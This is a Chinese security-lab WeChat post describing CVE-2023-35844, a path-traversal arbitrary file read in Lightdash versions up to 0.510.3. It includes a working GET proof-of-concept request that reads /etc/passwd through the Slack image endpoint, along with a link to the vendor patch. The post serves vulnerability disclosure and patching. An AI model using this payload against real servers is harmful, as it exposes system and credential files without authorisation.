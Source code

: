 #  Lightdash任意文件读取漏洞(CVE-2023-35844)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#CVE 27 个

#网络安全 30 个

#漏洞 45 个

#POC 4 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](https://gitee.com/fuli009/images/raw/master/public/20230628123321.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](https://gitee.com/fuli009/images/raw/master/public/20230628123321.png)  
 **0x01漏洞介绍**  

Lightdash是可视化数据分析工具。

Lightdash 0.510.3之前版本存在安全漏洞。攻击者利用该漏洞可以访问存储在web根文件夹之外的文件和目录。

![](https://gitee.com/fuli009/images/raw/master/public/20230628123321.png)  
 **0x02影响版本**  
  

Lightdash <= 0.510.3

![](https://gitee.com/fuli009/images/raw/master/public/20230628123324.png)

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230628123321.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![]()

2.对漏洞进行复现

 **  POC （GET）**

  * 

    
    
    /api/v1/slack/image/slack-image%2F..%2F..%2F..%2Fetc%2Fpasswd

漏洞复现

         GET请求，响应存在漏洞

![](https://gitee.com/fuli009/images/raw/master/public/20230628123326.png)

3.afrog测试（漏洞存在）

![](https://gitee.com/fuli009/images/raw/master/public/20230628123329.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230628123321.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://github.com/lightdash/lightdash/commit/fcc808c84c2cc3afb343063e32a49440d32a553c

‍

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230628123331.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](https://gitee.com/fuli009/images/raw/master/public/20230628123332.png)

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

